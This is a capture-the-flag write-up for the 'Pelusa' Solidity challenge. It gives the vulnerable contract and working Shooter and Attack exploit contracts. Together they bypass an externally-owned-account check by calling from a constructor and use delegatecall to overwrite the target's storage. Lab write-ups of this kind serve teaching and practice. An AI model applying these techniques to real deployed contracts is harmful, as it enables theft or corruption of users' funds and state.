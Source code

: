 # Pelusa

## Challenge

We get one contract which we need to exploit

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IGame {
    function getBallPossesion() external view returns (address);
}

// "el baile de la gambeta"
// https://www.youtube.com/watch?v=qzxn85zX2aE
// @author https://twitter.com/eugenioclrc
contract Pelusa {
    address private immutable owner;
    address internal player;
    uint256 public goals = 1;

    constructor() {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
    }

    function passTheBall() external {
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

        player = msg.sender;
    }

    function isGoal() public view returns (bool) {
        // expect ball in owners posession
        return IGame(player).getBallPossesion() == owner;
    }

    function shoot() external {
        require(isGoal(), "missed");
				/// @dev use "the hand of god" trick
        (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
        require(success, "missed");
        require(uint256(bytes32(data)) == 22_06_1986);
    }
}
```

The goal is to change the goals from 1 to 2.

## Solution

First you need to get the owner. You can do this by calculating the value from the address that called the constructor and the block.timestamp at the construction tx. 

Then i wrote a simple contract called Shooter. This contract calls the passTheBall functionality if his own address to mod 100 is 10 and sets himself as the player. It does this during the constructor so the require in pelusa doesn't fail, which checks the extcodesize. In addition this contract implements the IGame interface and returns the owner in case of a call to getBallPossesion. It also has a function for handOfGod() which sets goals to 2 and returns the wanted value.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Pelusa.sol";

contract Shooter
{
    address private immutable owner;
    address internal player;
    uint256 public goals;

    //The real owner is the one who deployed the contract, could be retrieved via etherscan or a web3 script scraping for the contract creation transaction
    constructor(address target, address _owner) 
    {
        owner = _owner;
        if (uint160(address(this)) % 100 == 10)
        {
            Pelusa(target).passTheBall();
        }
    }

    function getBallPossesion() external view returns (address)
    {
        return owner;
    }

    function handOfGod() external returns (uint256)
    {
        goals = 2;
        return 22_06_1986;
    }
}
```

Then i wrote the exploit contract which produces shooters until it gets a valid address. Afterwards it calls the shoot function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Shooter.sol";

contract Attack
{
    function attack(address target, address real_owner) external
    {
        address last_created;
        while (uint160(last_created) % 100 != 10)
        {
            last_created = address(new Shooter(target, real_owner));
        }

        Pelusa(target).shoot();
    }
}
```

In our case the change of goals works, as our shooter contract is called through a delegatecall in the pelusa contract, the change of goals gets done in pelusas context.

I also added a POC, which you can find in the POC.sol file.

